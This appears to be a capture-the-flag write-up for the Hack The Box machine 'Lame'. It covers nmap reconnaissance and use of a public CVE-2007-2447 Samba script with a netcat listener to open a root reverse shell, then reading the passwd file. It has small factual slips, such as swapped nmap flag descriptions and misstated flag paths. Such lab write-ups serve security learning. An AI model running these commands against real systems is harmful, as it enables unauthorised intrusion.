 # Lame

## Recon
We're given the IP address of a machine that we don't know much about. Looking at the tags associated with this machine (Internal, Network, SAMBA, CVE-2007-2447), it's quite clear that this will be an easy exploit centered around samba 3.x

The first task is to look at the ports open on Lame. The command i used was nmap -sV -sC 10.10.10.3
```
-sV: run the default scripts
-sC: probe ports for the versions run on them
-Pn: treat host as online
```

After a few seconds, we see the following information of note:
```
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

```
FTP is open on port 21! We can log in as ftp, and anonymous login is allowed.

```
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Samba 3.0.20 is open on port 445. Quickly googling CVE-2007-2447 lets us know that this is *easily* exploitable to get remote code execution.


Honestly, at this point I went ahead and exploited this vulnerability right away without checking for other vulnerabilities.
*--------------------------------------------------------------------------------------------------------------------------------------------------------*

## Foothold

After having a further look at this CVE online, I found that there was a tool that essentially automates the initialization of a remote shell using this version of Samba.

[Amriunix's CVE-2007-2447 On Github](https://github.com/amriunix/CVE-2007-2447)

I followed the instructions on the page cloning the repository and got it set up on my host machine. Looking at the usage instructions, we arm the tool in the following format: `python usermap_script.pt <RHOST> <RPORT> <LHOST> <LPORT>`. I set up Netcat to listen on port 9999: `nc -lnvp 9999` and prepared the CVE: `python usermap_script.py 10.10.10.3 445 10.10.14.8 9999`

Upon launching the command, I saw that I'd caught a shell on port 9999 in netcat. Upon typing *whoami* I found that i was root.

*--------------------------------------------------------------------------------------------------------------------------------------------------------*

## Remote Code Execution

The first thing i did was *accidentally* get the system own, and steal the root flag at /home/root. I submitted the flag and double checked that there was actually a user to own. 

There was.

I may have jumped the gun.

To determine who else could be a user on this machine, I entered `cat hosts/passwd`, and sure enough there's a name of interest at the bottom of our list.
```
makis:x:1003:1003::/home/makis:/bin/sh
```

Since we're already logged in as root, it's a simple as entering `su makis`, logging in as that user. After gaining access to Makis' account, I simply repeated the process for stealing the root flag found instead this time under /home/makis.
